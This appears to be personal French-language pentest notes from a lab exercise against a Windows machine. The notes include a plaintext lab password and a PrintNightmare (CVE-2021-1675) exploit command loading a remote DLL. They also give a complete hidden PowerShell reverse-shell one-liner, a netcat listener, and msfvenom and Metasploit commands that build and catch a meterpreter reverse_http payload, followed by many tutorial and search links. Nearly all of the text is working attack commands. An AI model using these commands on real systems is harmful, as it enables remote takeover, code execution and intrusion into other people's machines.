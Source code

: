 domain hostname
DESKTOP-FQRFI1I

domaine 
WORKGROUP


motde passe
Motdepassepentest936


192.168.0.14





./CVE-2021-1675.py WORKGROUP/vmpen:Motdepassepentest936@192.168.0.14 '\\192.168.0p.111\smb\addCube.dll'
./CVE-2021-1675.py WORKGROUP/vmpen:Motdepassepentest936@192.168.0.14 'C:\addCube.dll



## mise en place du reverse shell 
https://www.revshells.com/


-> ip de kali
port 9010
- pc kali
`nc -vv -l -p 9010`
- Pc windows :
ouvrir cmd
`powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.0.111",9006);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`

- pc kali

```powershell
ls
pwd
dir
systeminfo
```
## mise
- kali

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.0.111 LPORT=8080 -f exe -o http_8080.exe


msfconsole

use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_http
set LPORT 8080
set LHOST 192.168.0.111
exploit
```

- pc windows
donwload fichier
http://192.168.0.111:8080

dl fichier exe
lancer fichier exe
- pc kali
exploit
sysinfo
pwd


## links
https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/


https://www.revshells.com/


https://www.bing.com/search?q=zaid+zsecurity+windows+11&cvid=c414b62fafdd4c5c89ba8f40dc540476&aqs=edge.0.69i59j69i57j0l5.9714j0j1&pglt=643&FORM=ANNAB1&DAF0=1&PC=U531


https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3


https://www.bing.com/search?q=smb+1.0+metasploit&cvid=998e07e76aaf4be982dd7dfdafef8d7d&aqs=edge.1.69i57j69i59l3j0j69i60l2.2541j0j1&pglt=643&FORM=ANNAB1&DAF0=1&PC=U531


https://www.hackingarticles.in/penetration-testing-in-smb-protocol-using-metasploit/


https://www.bing.com/search?q=how+to+enable+smb2.0&cvid=8402ddd41b3142e0a5ff277aad57a52f&aqs=edge..69i57j0l6.3184j0j4&pglt=675&FORM=ANAB01&DAF0=1&PC=U531

https://www.bing.com/search?q=how+to+enable+smb2.0&cvid=8402ddd41b3142e0a5ff277aad57a52f&aqs=edge..69i57j0l6.3184j0j4&pglt=675&FORM=ANAB01&DAF0=1&PC=U531


https://askubuntu.com/questions/79078/how-to-restart-samba-server


https://www.windows-commandline.com/find-domain-name-command-line/#:~:text=We%20can%20find%20the%20domain%20name%20of%20a,variable%20%E2%80%98USERDOMAIN%E2%80%99.%20Command%20for%20this%20is%20given%20below.


https://www.bing.com/search?q=smb+port+windows+10&cvid=2ca57b4b857a4bdb89fd17155b8075b9&aqs=edge.0.0j69i57.2863j0j1&pglt=643&FORM=ANNAB1&DAF0=1&PC=U531


https://www.bing.com/search?q=NET+USET+TEST+PASSWORD&qs=n&form=QBRE&sp=-1&pq=net+uset+test+passwor&sc=0-21&sk=&cvid=EF865E19CED94922AB6F24D68C238122



https://www.bing.com/search?q=NET+USET+TEST+PASSWORD&qs=n&form=QBRE&sp=-1&pq=net+uset+test+passwor&sc=0-21&sk=&cvid=EF865E19CED94922AB6F24D68C238122


https://www.bing.com/search?q=samba+service+restart&qs=UT&pq=samba+service+rest&sc=1-18&cvid=1B12C21EB51643BDBD1734ECF7C0C291&FORM=QBRE&sp=1



https://www.bing.com/search?q=domain+cmd&qs=n&form=QBRE&sp=-1&ghc=1&pq=domain&sc=6-6&sk=&cvid=0E7A6CF56073493196440C2A51FD9F23



https://github.com/search?l=Shell&q=CVE-2021-1675&type=Repositories


https://www.bing.com/search?q=smb+1.0+metasploit&qs=n&form=QBRE&sp=-1&ghc=1&pq=smb+1.0+metasplo&sc=0-16&sk=&cvid=5480E99F45864211A896B3C7915EBDF4



https://www.hackingarticles.in/penetration-testing-in-smb-protocol-using-metasploit/


https://github.com/cube0x0/CVE-2021-1675